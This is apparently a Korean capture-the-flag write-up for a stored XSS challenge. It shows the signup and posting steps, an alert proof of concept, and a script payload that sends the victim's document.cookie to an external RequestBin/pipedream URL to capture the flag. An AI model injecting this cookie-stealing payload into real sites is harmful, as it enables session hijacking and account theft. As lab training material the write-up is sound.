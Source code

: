 # XSS 1

http://ctf.segfaulthub.com:4343/xss_1/

위 사이트의 메인페이지   
![1](https://user-images.githubusercontent.com/106296883/236489802-ad777541-b520-437e-8100-5da8baf0fedb.PNG)
</br>
</br>

Login 진행   
![2](https://user-images.githubusercontent.com/106296883/236489806-a60af02f-ec84-4e73-bafa-fddfaaf37665.PNG)
</br>
</br>

Sign up 진행   
![3](https://user-images.githubusercontent.com/106296883/236489809-c3f2d3fc-a572-4482-bd1c-d80abfb5cce2.PNG)
</br>
</br>

Sign up 완료 후 Login 진행   
![4](https://user-images.githubusercontent.com/106296883/236489810-f1b06ed8-9637-4d08-afeb-258fa0a7bd6b.PNG)
</br>
</br>

로그인 완료   
![5](https://user-images.githubusercontent.com/106296883/236489814-04d25626-a4dc-401b-9f50-13525204fa74.PNG)
</br>
</br>

공지 사항 버튼 클릭   
![6](https://user-images.githubusercontent.com/106296883/236489816-6fc9c820-104b-40af-ae98-2e30dedc2100.PNG)
</br>
</br>

글쓰기 버튼 클릭 후 POC 코드 삽입   
```
<script>alert('test')</script>
```
![7](https://user-images.githubusercontent.com/106296883/236489821-ed9a9077-7917-4dab-8bf0-77238eb9d622.PNG)
</br>
</br>

내가 작성한 게시글 클릭   
![8](https://user-images.githubusercontent.com/106296883/236489822-b39f26c1-3d40-4e46-adc5-ed192e119eca.PNG)
</br>
</br>

POC 코드 성공. alert 통과 

제목 POST를 통해 입력가능하다는 것을 확인했음   
![9](https://user-images.githubusercontent.com/106296883/236489827-4f0ab82b-fef6-4d6e-a645-1d12b8efd745.PNG)
</br>
</br>

RequestBin.com에서 임시 url을 받아 사용   
![11](https://user-images.githubusercontent.com/106296883/236489829-0384bee1-231a-40ab-9389-eb861c23d68f.PNG)
</br>
</br>

cookie 탈취 코드 입력 후 작성
```
<script>var i = new Image();i.src = "https://en1400lt9tp98.x.pipedream.net?cookie=" + document.cookie;</script>
```
![10](https://user-images.githubusercontent.com/106296883/236489832-7fde9473-b69a-4b7a-86e7-a6c6a5a533a6.PNG)
</br>
</br>

cookie 탈취 코드를 작성한 게시글을 클릭하여 게시글 확인을 진행

RequestBin.com에서 cookie에 대한 정보가 적용되는 것을 확인.   
![13](https://user-images.githubusercontent.com/106296883/236489833-8a054378-41ac-488c-a735-9eb50486bc66.PNG)
</br>
</br>

실제 진행할 때에는 flag 획득 성공
</br>
</br>

